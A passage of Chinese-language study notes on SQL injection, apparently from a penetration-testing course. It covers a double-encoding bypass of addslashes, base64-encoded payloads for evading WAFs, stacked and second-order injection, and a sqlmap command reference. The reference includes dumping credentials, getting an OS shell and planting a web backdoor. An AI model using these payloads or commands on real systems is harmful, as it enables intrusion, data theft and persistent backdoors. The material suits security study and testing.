* 使用过滤函数**addslashes()**时，特殊符号前的**反斜杠**转义字符会被**urldecode()等函数再一次解码**，去掉转义字符，导致转移失败

| 用户输入  | php解析 | addslashes()编码 | urldecode()解析 | 最终输入 | 结果       |
| --------- | ------- | ---------------- | --------------- | -------- | ---------- |
| id=1%27   | id=1'   | id=1`\'`         | （没有该函数）  | id=1`\'` | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | （没有该函数）  | id=1%27  | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | id=1'           | id=1'    | 注入成功！ |


### 4. Base64注入

#### (1). 概述

* Base64是基于64个可打印字符来表示二进制数据的方法，可打印字符包括**A-Z，a-z，0-9，+，/**
* Base64把**不可见字符全部编码为可见字符**，**大大降低传输时出现错误的可能性**

#### (2). 原理

* 针对传递的参数被base64**加密后的注入点进行注入**，常用于**绕过一些WAF**检测

#### (3). 注入方法

1. 先将原本参数**解密**，再结合**之前注入手法**进行设计
2. 语句设计完成后，**重新加密**作为参数进行注入

#### (4). 实例

```
1.原参数
	YWRtaW4n
2.解密后进行语句设计
	admin') and updatexml(1,concat(0x7e,database(),0x7e),1) -- qwe
3.base64编码后进行注入
	YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKSAtLSBxd2U=
```

### 5. 堆叠注入

#### (1). 概述

* 在**分号**结束一个sql语句后，**继续构造**下一条语句，**一起执行**
* **堆叠查询**可以执行**任意语句**，**联合查询**的语句**类型有限**，通常是**查询语句**

#### (2). 原理

* 将**许多语句**通过**分号**叠加在**一起执行**
* **mysqli_multi_query支持**，**mysql_query不支持**
* 可能受到**API**或**数据库引擎不支持**的限制

#### (3). 条件

* web系统通常**只返回一个查询结果**，故在读取数据时使用**联合注入**
* 使用堆叠注入前，须知道数据库的**表名、列名等**

#### (4). 实例

```
//插入数据
1';insert into users(username,password) value('icq','icq') -- qwe
//获取字段名
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),database() -- qwe
//获取字段内数据
-1' union select 1,(select group_concat(concat_ws('_',username,password)) from users),database() -- qwe
```

### 6. 二次注入

#### (1). 概述

* 已**存储的用户输入**被**读取**后，**再次进入到sql查询语句**中导致的注入

#### (2). 原理

1. 网站在对用户输入**恶意数据**时进行**转义处理**
2. 恶意数据**插入到数据库**时又被**还原并存储**到数据库中
3. 系统**再次调用**该恶意数据并**执行sql查询**时，被成功注入(因为调用时不会考虑转义问题)

#### (3). 实例 

```
//一个页面，能显示登录后的用户名，这时可以注册不同的payload名的账号，来进行注入
1' and updatexml(1,concat(0x7e,database(),0x7e),1)#

1' order by 5#

1' union select 1,2,3,4,5#

1' union select 1,database(),3,4,5#

1' union select 1,(select table_name from information_schema.tables where table_schema=database()),2,3,4,5#

1' union select 1,user(),3,4,5#
```

### 7. Sqlmap

#### (1).介绍

##### a. 工作流程

1. 检测网站是否能够访问
2. 检测是否有waf
3. 判断可注入的参数
4. 判断可以使用哪种Sql注入技术
5. 识别出数据库种类
6. 根据用户输入的参数，进行操作

##### b. 支持的注入模式

1. 联合查询注入
2. 基于报错注入
3. 布尔、时间盲注
4. 堆叠查询注入
5. 内联查询注入

#### (2). 使用

##### a. 基本流程

###### ①检测注入点

* sqlmap -u "带参数网址"

###### ②查看所有数据库

* sqlmap -u "带参数网址" --dbs

###### ③查看当前数据库

* sqlmap -u "带参数网址" --current-db

###### ④查看表名

* sqlmap -u "带参数网址" -D [数据库名] --tables

###### ⑤列出所有字段名

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] --columns

###### ⑥列出字段内容

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] -C [列名...] --dump

##### b. 历史记录

###### ①Windows

* C:\Users\26254\AppData\Local\sqlmap

###### ②Linux

* /home/test/.sqlmap
* /root/.sqlmap

###### ③清除

1. python sqlmap.py --purge
2. 删除sqlmap的output文件夹
3. python sqlmap.py --flush-session

#### (3). 常用参数

##### a. --privileges

* 测试注入点权限

###### ①用法

```
sqlmap -u [URL] --privileges  //测试所有用户的权限
sqlmap -u [URL] --privileges -U [用户名] //测试指定用户权限
```

###### ②注意

1. 若目标是MSSql数据库，只会列出用户是否是管理员
2. 通过用户权限可以判断出**管理员用户**

##### b. -os-cmd/-os-shell

* 执行shell命令

###### ①用法

```
sqlmap -u [URL] --os-cmd="net user"	//执行net user命令
sqlmap -u [URL] --os-shell		//系统交互式的shell
```

###### ②注意

1. 用--os-shell可以**模拟真实shel**l，可以使用**INTO OUTFILE**写进**可写目录**，创造一个**Web后门**
2. 需要有权限使用特定函数
3. 数据库为mysql、postgresql、sqlserver

##### c. --data/-r

* POST提交方式

###### ①用法

```
sqlmap -u [URL] --data "POST参数" 	//通过POST方式提交参数
sqlmap -u [URL] -r "txt文件"	//读取文件中的HTTP数据包内容来测试POST注入和HTTP Header注入
```

###### ②注意

1. **-p可指定参数**
2. **参数后加 *** 可以只测试该参数

##### d. -users/-passwords

* 获取数据库用户名、密码

###### ①用法

```
sqlmap -u [URL] --users -passwords	//列举所有用户的密码
```

##### e. -v

* 输出级别

###### ①用法

```
sqlmap -u [URL] -v 3 	//指定输出级别为3
```

| 数据级别 | 含义                               |
| -------- | ---------------------------------- |
| 0        | 只显示python的回溯、错误和关键信息 |
| 1        | 显示信息和警告信息                 |
| 2        | 显示调试信息                       |
| **3**    | **显示注入使用的攻击载荷**         |
| 4        | 显示HTTP请求                       |
| 5        | 显示HTTP响应头                     |
| 6        | 显示HTTP相应页面的内容             |

###### ②注意

1. **默认输出级别为1**

##### f. --level

* 探测等级

###### ①用法

```
sqlmap -u [URL] --level 3	//指定测试等级为3
```

| 测试等级 | 含义                                  |
| -------- | ------------------------------------- |
| 1        | 对GET和POST的数据进行测试             |
| 2        | 会对HTTP cookie进行测试               |
| 3        | 会对HTTP User-Agent/Referer头进行测试 |
| 4-5      | 测试更全面，但更慢                    |

###### ②注意

1. **默认测试等级为1**
2. 不确定那个Payload或参数为注入点时，建议使用更高的level值

##### g. --is-dba

* 判断当前用户的管理员权限

###### ①用法

```
sqlmap -u [URL] --is-dba	//查看是否为数据库管理员账户
```

###### ②注意

1. 返回的结果代表是否有**写权限**，可以在服务器上写入**一句话木马**
2. 是**管理员返回True**，否则返回False

##### h. --roles

* 列出数据库用户所具有的权限 

###### ①用法

```
sqlmap -u [URL] --roles		//列出数据库用户所具有的权限
```

##### i. -b/--banner

* 列出数据库管理系统信息

###### ①用法

```
sqlmap -u [URL] --banner	//返回①数据库系统版本号②最后的补丁级别③底层的操作系统信息
```

##### j. --users/--passwords

* 获取数据库的用户名和密码

###### ①用法

```
sqlmap -u [URL] --users --passwords
```

##### k. --current-user/--current-db

* 显示当前数据库和当前数据库用户

###### ①用法

```
sqlmap -u [URL] --current-user --current-db
```

###### ②注意

##### l. -m

* 批量进行注入检测

###### ①用法

```
sqlmap -m "filename"	//扫描指定文件内的网址
```

##### m. --cookie

* 指定cookie

###### ①用法

```
sqlmap -u [URL] --cookie="name:value"
```

###### ②注意

1. sqlmap**不支持--method**指定http请求的方法
2. **默认不扫**cookie的内容，**除非level ≥ 2**
3. cookie内的默认分隔符为**分号;**

##### n. --user-agent/--random-agent

* 指定User-Agent

###### ①用法

```
sqlmap -u [URL] --user-agent="..."	//指定某一个值
sqlmap -u [URL] --random-agent	//sqlmap会从文件./txt/user_agents.txt中随机选取一个User-Agent
```

###### ②注意

1. 同一次会话使用同一个User-Agent，而不是每发一次包就换一个

##### o. --referer

* 指定Referer

###### ①用法

```
sqlmap -u [URL] --referer="aaa"	//指定referer内容为aaa
```

###### ②注意

1. 当level ≥ 3时，才会对referer注入
2. Sqlmap发送的HTTP请求头部，**默认无Referer字段**

##### p. --time-sec

* 延时注入，指定延时时间

###### ①用法

```
sqlmap -u [URL] --time-sec [秒数]
```

###### ②注意

1. 单位为秒

##### q. --technique/-

* 指定注入类型

###### ①用法

```
sqlmap -u [URL] --technique [类型]  
```

| 参数                   | 类型         |
| ---------------------- | ------------ |
| U(Union query-based)   | 联合查询注入 |
| E(Error-based)         | 基于报错注入 |
| B(Boolean-based blind) | 布尔盲注     |
| T(Time-based blind)    | 时间盲注     |
| S(Stacked queries)     | 堆叠查询注入 |
| Q(Inline queries)      | 内联查询注入 |

##### r. --batch

* 默认选项均选择Y

##### s. --delay

* 限制请求间隔

###### ①用法

```
sqlmap -u [URL] --delay [秒数]	//提高发包间隔		
```

###### ②注意

1. ### 当有警告 `target URL content is not stable` 时使用
